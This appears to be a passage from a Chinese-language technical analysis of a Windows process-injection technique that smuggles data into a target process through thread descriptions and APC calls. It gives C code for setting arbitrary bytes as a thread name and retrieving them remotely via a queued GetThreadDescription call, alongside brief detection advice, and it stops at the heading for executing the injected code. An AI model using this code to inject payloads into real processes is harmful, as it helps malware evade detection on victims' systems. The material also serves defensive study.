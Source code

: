 4. **审计**:
   - 记录线程描述的设置和读取
   - 监控异常的 APC 队列操作

## 实现代码分析

### 核心函数

**1. 设置线程描述（支持任意字节）**

```c
HRESULT SetThreadDescriptionEx(HANDLE hThread, const BYTE* buf, SIZE_T bufSize) {
    // 创建 UNICODE_STRING
    BYTE* padding = (BYTE*)calloc(bufSize + sizeof(WCHAR), 1);
    memset(padding, 'A', bufSize);

    UNICODE_STRING ustr = {0};
    RtlInitUnicodeStringEx(&ustr, (PCWSTR)padding);

    // 覆盖为真实内容（包括 NULL 字节）
    memcpy(ustr.Buffer, buf, bufSize);

    // 使用 NtSetInformationThread
    NtSetInformationThread(hThread, ThreadNameInformation, &ustr, sizeof(UNICODE_STRING));

    free(padding);
}
```

**2. 通过线程名称传递数据**

```c
PVOID PassViaThreadName(HANDLE hProcess, HANDLE hThread, const BYTE* buf,
                        SIZE_T bufSize, PVOID remotePtr) {
    // 设置线程描述
    SetThreadDescriptionEx(hThread, buf, bufSize);

    // 通过 APC 调用 GetThreadDescription
    // GetThreadDescription(NtCurrentThread(), remotePtr)
    QueueApcThread(hThread, GetThreadDescription,
                   (PVOID)NtCurrentThread(), remotePtr, NULL);

    // 等待缓冲区地址写入
    PVOID bufferPtr = NULL;
    while (!ReadRemoteMemory(hProcess, remotePtr, &bufferPtr, sizeof(PVOID))) {
        Sleep(1000);
    }

    return bufferPtr;
}
```

**3. 执行注入的代码**
